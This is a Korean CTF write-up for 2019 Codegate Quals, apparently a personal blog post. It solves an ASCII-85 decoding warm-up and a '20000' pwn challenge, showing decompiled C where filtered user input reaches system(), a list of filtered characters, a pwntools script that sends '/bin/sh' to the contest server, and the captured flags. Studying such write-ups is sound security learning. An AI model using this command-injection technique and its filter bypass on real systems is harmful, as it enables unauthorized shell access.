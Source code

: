 ```yaml
---
layout: post
title: "2019 Codegate Quals Writeup"
date: 2019-1-31
ctf: Codegate CTF
---
```


> 팀명 : 앙진헌띠

> 주니어부 23등

어쩌다 보니 본선에 가게되었다.. ㅎㅎ

###  MIC check

9P&;gFD,5.BOPCdBl7Q+@V'1dDK?qL 를 디코딩하라고 한다.

ASCII-85 디코딩 해주면 플래그가 나온다.

![](https://user-images.githubusercontent.com/32904385/51801712-cfde7180-2284-11e9-8a03-aca7a9ee978b.png)

**FLAG : Let the hacking begins ~**

<br />

### 20000

nc 와 20000이라는 바이너리와 20000개의 .so파일이 주어진다.

20000 바이너리의 메인함수이다. 메인에서 1~20000까지 입력받는데 이 입력 받은 수의 라이브러리 파일을 불러와서 test 함수를 실행시켜준다. 그리고 쉘을 따면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801713-d1a83500-2284-11e9-9466-0b858c34431d.png)

```c
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char *v3; // rax
  signed __int64 result; // rax
  void *v5; // rdi
  char *v6; // rax
  int input; // [rsp+Ch] [rbp-94h]
  void (__fastcall *v8)(void *, const char *); // [rsp+10h] [rbp-90h]
  void *handle; // [rsp+18h] [rbp-88h]
  char s; // [rsp+20h] [rbp-80h]
  int v11; // [rsp+80h] [rbp-20h]
  int v12; // [rsp+84h] [rbp-1Ch]
  unsigned __int64 v13; // [rsp+88h] [rbp-18h]

  v13 = __readfsqword(0x28u);
  print_map();
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  memset(&s, 0, 0x60uLL);
  v11 = 0;
  printf("INPUT : ", 0LL, &v12);
  __isoc99_scanf("%d", &input);
  if ( input <= 0 && input > 20000 )
  {
    printf("Invalid Input", &input);
    exit(-1);
  }
  sprintf(&s, "./20000_so/lib_%d.so", input);
  handle = dlopen(&s, 1);
  if ( handle )
  {
    v5 = handle;
    v8 = dlsym(handle, "test");
    if ( v8 )
    {
      v8(v5, "test");
      dlclose(handle);
      result = 0LL;
    }
    else
    {
      v6 = dlerror();
      fprintf(stderr, "Error: %s\n", v6);
      dlclose(handle);
      result = 1LL;
    }
  }
  else
  {
    v3 = dlerror();
    fprintf(stderr, "Error: %s\n", v3);
    result = 1LL;
  }
  return result;
}
```



하지만 문제가 20000개의 lib 파일에서 무슨 파일인지 알 수 없었다. 왜 20000개인지 알 거 같았다. 마지막 수정 일 순으로 정렬해보면 `lib_17394.so` 파일만 수정일이 오전 10시 37분이였다. 다른 .so파일들은 수정일이 오후 10시 33분이였다. 

![](https://user-images.githubusercontent.com/32904385/51801715-d53bbc00-2284-11e9-99be-09c70874a936.png)



```c
signed __int64 test()
{
  char *v0; // rax
  signed __int64 result; // rax
  char *v2; // rax
  void (__fastcall *v3)(char *, char *); // [rsp+0h] [rbp-B0h]
  void (__fastcall *v4)(char *); // [rsp+8h] [rbp-A8h]
  void *handle; // [rsp+10h] [rbp-A0h]
  void *v6; // [rsp+18h] [rbp-98h]
  char buf; // [rsp+20h] [rbp-90h]
  __int16 v8; // [rsp+50h] [rbp-60h]
  char s; // [rsp+60h] [rbp-50h]
  __int16 v10; // [rsp+90h] [rbp-20h]
  unsigned __int64 v11; // [rsp+98h] [rbp-18h]

  v11 = __readfsqword(0x28u);
  memset(&buf, 0, 0x30uLL);
  v8 = 0;
  memset(&s, 0, 0x30uLL);
  v10 = 0;
  handle = dlopen("./20000_so/lib_4323.so", 1);
  if ( handle )
  {
    v3 = dlsym(handle, "filter1");
    v6 = dlopen("./20000_so/lib_11804.so", 1);
    if ( v6 )
    {
      v4 = dlsym(v6, "filter2");
      puts("This is lib_17394 file.");
      puts("How do you find vulnerable file?");
      read(0, &buf, 0x32uLL);
      v3(&buf, &buf);
      v4(&buf);
      sprintf(&s, "%s 2 > /dev/null", &buf);
      system(&s);
      dlclose(handle);
      dlclose(v6);
      result = 0LL;
    }
    else
    {
      v2 = dlerror();
      fprintf(stderr, "Error: %s\n", v2);
      result = 0xFFFFFFFFLL;
    }
  }
  else
  {
    v0 = dlerror();
    fprintf(stderr, "Error: %s\n", v0);
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

`lib_17394.so` 를 보면 `lib_4323.so` 라이브러리의 fillter1을 실행시키고 `lib_11804.so` 라이브러리의 fillter2를 실행시켜준다. 그러면 이제 fillter만 우회해서 쉘을 따주면 될 거 같다. system(&s) 를 실행시켜주니까 저기에 쉘을 넣어주면 될 거 같다.

![](https://user-images.githubusercontent.com/32904385/51801716-d66ce900-2284-11e9-848d-62289a7de43f.png)

Exploit Code

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
from ctypes import *

# testlib = CDLL('./c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000_so/lib_17394.so')
"""
Filltering
; * | & $ ` > < v m p d f g l
r bash
"""
#p = process('././c1e3a33d8932a4a61b0e0e0e49d6c9bc/20000')
p = remote('110.10.147.106',15959)
print p.sendlineafter('INPUT :','17394')
print p.sendlineafter('How do you find vulnerable file?','/bin/sh')
p.interactive()
```



![](https://user-images.githubusercontent.com/32904385/51801718-d79e1600-2284-11e9-8e04-7fdd0e9f8c27.png)

**FLAG : Are_y0u_A_h@cker_in_real-word?**

